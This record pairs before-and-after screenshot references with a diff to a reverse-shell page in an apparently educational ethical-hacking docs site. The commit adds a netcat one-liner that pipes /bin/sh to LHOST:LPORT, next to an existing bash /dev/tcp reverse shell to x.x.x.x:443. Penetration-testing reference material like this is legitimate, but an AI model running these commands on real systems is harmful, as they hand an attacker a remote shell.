

Before and after one commit to curious-attempt-bunny/ethical-hacking-reference-docs, a Sphinx documentation site: the page built from source/reverse_shells.md, in a window 1280 px wide and 1152 px high. Shown: the whole window at 89% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update reverse_shells.md

````diff
--- a/source/reverse_shells.md
+++ b/source/reverse_shells.md
@@ -13,6 +13,11 @@ or:
 ```
 bash -i >&/dev/tcp/x.x.x.x/443 0>&1
 ```
+OR:
+```
+tail -n 0 -f /tmp/1 | /bin/sh 2>&1 | nc -nv LHOST LPORT 1> /tmp/1
+```
+
 
 ## Metasploit venom
 
````
